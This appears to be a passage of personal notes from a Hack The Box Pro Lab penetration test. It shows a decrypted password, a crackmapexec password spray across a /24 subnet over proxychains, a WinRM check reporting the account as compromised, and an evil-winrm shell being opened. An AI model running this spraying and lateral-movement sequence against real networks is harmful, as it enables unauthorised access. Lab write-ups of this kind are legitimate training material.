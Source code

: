 ```bash
[-] 19852
[-] 32740
[-] 28591
[-] 29171
[-] 33508
[-] 27364
[-] 10993
[+] PASSWORD LENGTH: 13
[*] DECRYPTED PASSWORD: Dev0ftheyear!
```

#crackmapexec
#joe #passwordspray
![[Penetration Testing v2/htb_pro_Labs/offshore/172.16.1.201 - JOE-LPTP/screenshots/JOE PASSWORD SPRAY.png]]
```bash
# utilized this command to password spray across /24 domain
[root💀~/bugs_offshore/172.16.1.201] [10.10.14.39] [2023-08-08 16:31:13] 
 └─╼ # proxychains crackmapexec smb 172.16.1.0/24 -u 'joe' -p 'Dev0ftheyear!' > joe_hack_24_pwdspray.txt
```

found that the user joe exists on ip addresses:
172.16.1.200 (DC0)
172.16.1.201 (JOE-LPTP)
172.16.1.220 (SRV01)

cant really do anything with the credentials at this point, going to try to laterally move to DC0 with the credentials that joe has since I know he exists there

#rpclient
had to first make a rpc_joe text document with the fields below, and make sure to put -A in to utilize the file
![[RPC JOE.png]]
#crackmapexec #evil-winrm
### ALWAYS SCAN PORT 5985 TO SEE IF WINRM IS OPEN ON WINDOWS DEVICE
```bash
#winrm is allowed on JOE-LPTP
[root💀~/bugs_offshore/10.10.110.123] [10.10.14.39] [2023-08-08 17:48:27] 
 └─╼ # proxychains crackmapexec winrm 172.16.1.201 -u joe -p Dev0ftheyear!
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:5986 <--socket error or timeout!
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:5985  ...  OK
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:445  ...  OK
SMB         172.16.1.201    5985   JOE-LPTP         [*] Windows 10.0 Build 19041 (name:JOE-LPTP) (domain:JOE-LPTP)
HTTP        172.16.1.201    5985   JOE-LPTP         [*] http://172.16.1.201:5985/wsman
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:5985  ...  OK
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:5985  ...  OK
WINRM       172.16.1.201    5985   JOE-LPTP         [+] JOE-LPTP\joe:Dev0ftheyear! (Pwn3d!)
[root💀~/bugs_offshore/10.10.110.123] [10.10.14.39] [2023-08-08 17:53:45] 


[root💀~/bugs_offshore/10.10.110.123] [10.10.14.39] [2023-08-08 17:53:45] 
 └─╼ # proxychains evil-winrm -i 172.16.1.201 -u joe -p Dev0ftheyear!
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
                                        
Evil-WinRM shell v3.5
```